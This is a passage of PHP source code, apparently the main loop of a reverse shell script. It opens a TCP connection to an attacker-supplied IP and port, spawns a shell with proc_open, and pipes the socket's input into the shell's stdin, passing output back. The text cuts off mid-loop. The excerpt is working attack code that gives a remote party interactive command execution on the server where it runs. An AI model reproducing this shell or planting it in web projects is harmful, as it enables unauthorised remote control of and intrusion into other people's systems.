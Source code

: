  ```php
//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
 ```